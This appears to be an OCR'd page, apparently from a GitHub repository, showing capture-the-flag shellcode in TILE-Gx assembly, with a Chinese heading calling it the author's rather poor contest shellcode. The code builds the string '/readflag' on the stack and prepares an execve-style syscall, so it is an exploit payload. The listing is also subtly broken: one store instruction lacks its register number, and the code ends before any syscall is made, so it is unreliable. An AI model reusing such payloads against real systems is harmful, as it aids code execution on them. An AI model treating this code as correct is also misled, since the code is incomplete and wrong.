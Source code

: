 #### 比赛shellcode

> 比赛是写的shellcode比较垃圾

```s
 .global _start
    .text
_start:
        movei r1,0
        movei r2,0

        movei r3,0x2f
        addi sp, sp, -16
        st1 sp,r

        movei r3,0x72
        addi sp,sp,1
        st1 sp,r3

        movei r3,0x65
        addi sp,sp,1
        st1 sp,r3

        movei r3,0x61
        addi sp,sp,1
        st1 sp,r3
        
        movei r3,0x64
        addi sp,sp,1
        st1 sp,r3
        
        movei r3,0x66
        addi sp,sp,1
        st1 sp,r3

        movei r3,0x6c
        addi sp,sp,1
        st1 sp,r3

        movei r3,0x61
        addi sp,sp,1
        st1 sp,r3

        movei r3,0x67
        addi sp,sp,1
        st1 sp,r3

        movei r3,0x00
        addi sp,sp,1
        st1 sp,r3

        addi sp,sp,-9
        addi r0, sp, 0

        moveli r10,221

        addi sp, sp, -32
        addi r1, sp, 0

        st sp,r0
        addi sp, sp, 8
        addi r7, sp, 16
        st sp,r7

```